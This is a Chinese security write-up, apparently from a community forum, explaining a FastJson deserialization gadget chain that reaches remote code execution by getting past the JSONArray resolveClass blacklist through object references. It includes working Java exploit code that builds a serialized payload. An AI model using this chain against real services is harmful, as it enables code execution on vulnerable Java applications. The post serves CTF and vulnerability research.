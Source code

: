 

# FastJson 结合二次反序列化绕过黑名单 - 先知社区

FastJson 结合二次反序列化绕过黑名单



#### 省流

该利用链可以在`fastjson`多个版本实现`RCE`，并且借助`SignedObject`绕过第一层安全的`resolveClass`对于`TemplatesImpl`类的检查。

条件如下：

1.  `ObjectInputStream`（反序列化）输入数据可控
2.  引入`Fastjson`依赖

#### FastJson 之不安全的反序列化利用

说起来还是`AliyunCTF`那道`ezbean`的非预期，很多师傅使用`FastJson#toString`方法触发`TemplatesImpl#getOutputProperties`实现`RCE`。

**gadget**

```bash
BadAttributeValueExpException#readObject
JSONArray#toString
TemplatesImpl#getOutputProperties
```

`FastJson`反序列化并不是通过`ObjectInputStream.readObject()`还原对象，而是在反序列化的过程中自动调用类属性的`setter/getter`方法，将`JSON`字符串还原成对象。

因此从`FJ 1.2.49`开始，`JSONArray`和`JSONObject`开始重写了`resolveClass`，过滤了诸如`TemplatesImpl`的危险类。而`ezbean`那道题使用了一个不安全的`ObjectInputStream`进行反序列化。

这也就导致了选手通过引用的数据类型从而不执行`resolveClass`以绕过其对危险类的检查，导致了非预期。

**exp**

```bash
List<Object> list = new ArrayList<>();

        TemplatesImpl templates = GadgetUtils.createTemplatesImpl("calc");

        list.add(templates);          //第一次添加为了使得templates变成引用类型从而绕过JsonArray的resolveClass黑名单检测

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);           //此时在hash表中查到了映射，因此接下来以引用形式输出

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        ReflectionUtils.setFieldValue(bd,"val",jsonArray);
        list.add(bd);
        //字节
        byte[] payload = SerializerUtils.serialize(list);

        ObjectInputStream ois = new MyInputStream(new ByteArrayInputStream(payload));
        ois.readObject();
```
